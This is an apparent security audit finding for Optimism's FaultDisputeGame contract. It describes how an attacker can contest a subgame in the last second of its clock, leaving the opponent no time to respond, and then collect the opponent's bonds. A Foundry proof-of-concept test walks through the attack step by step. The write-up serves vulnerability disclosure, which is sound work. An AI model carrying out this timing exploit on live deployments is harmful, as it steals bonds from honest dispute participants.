 Flat Fleece Snail

high

# Subgames can be won at the last second

## Summary

Subgames can be won at the last second

## Vulnerability Detail

There is a strategy to win subgames by contesting the subgame at the last second of the expiration of the subgame root's clock. When this happens, the newly added attacker node will be uncountered because the opponent cannot react fast enough, and therefore the root node will be countered. 

The condition for a subgame to be resolvable is that the time of contesting the subgame root plus the parent clock duration must be greater than the GAME_DURATION / 2.

[FaultDisputeGame.sol#L411-L417](https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L411-L417)
```solidity
        uint64 parentClockDuration = parent.clock.duration().raw();
        uint64 timeSinceParentMove = uint64(block.timestamp) - parent.clock.timestamp().raw();
        if (parentClockDuration + timeSinceParentMove <= GAME_DURATION.raw() >> 1) {
            revert ClockNotExpired();
        }
```

This effectively means the contest of the subgame can be at the last second and the opponent cannot react fast enough.

Therefore it would be possible to win the subgames and the bonds these way. Attached is a Foundry PoC documenting this strategy.

```solidity
    function test_resolve_frontrunResolution() public {
        Claim claim = _dummyClaim();
        uint256 firstBond = _getRequiredBond(0);
        vm.deal(address(this), firstBond);
        gameProxy.attack{ value: firstBond }(0, claim);

        uint256 secondBond = _getRequiredBond(1);
        vm.deal(address(this), secondBond);
        gameProxy.attack{ value: secondBond }(1, _dummyClaim());

        // Setup our attacker
        address attacker = address(0xDEADBEEF);

        // Oh, oh, attacker contests it at the last second
        vm.warp(block.timestamp + 3 days + 11 hours + 59 minutes + 59 seconds);
        uint256 thirdBond = _getRequiredBond(2);
        vm.deal(attacker, thirdBond);

        vm.prank(attacker);
        gameProxy.attack{ value: thirdBond }(2, _dummyClaim());

        // Don't have time to react
        vm.warp(block.timestamp + 2 seconds);

        // Attacker claims both bonds.
        gameProxy.resolveClaim(3);
        gameProxy.resolveClaim(2);
 
        // Wait for the withdrawal delay.
        vm.warp(block.timestamp + delayedWeth.delay() + 1 seconds);

        gameProxy.claimCredit(attacker);
        assertEq(attacker.balance, _getRequiredBond(1) + _getRequiredBond(2));
    }
```
## Impact

Always win a subgame and theft of bonds

## Code Snippet

https://github.com/sherlock-audit/2024-02-optimism-2024/blob/main/optimism/packages/contracts-bedrock/src/dispute/FaultDisputeGame.sol#L411-L417

## Tool used

Manual Review / Foundry

## Recommendation

Come up with another way for subgames to be able to resolved.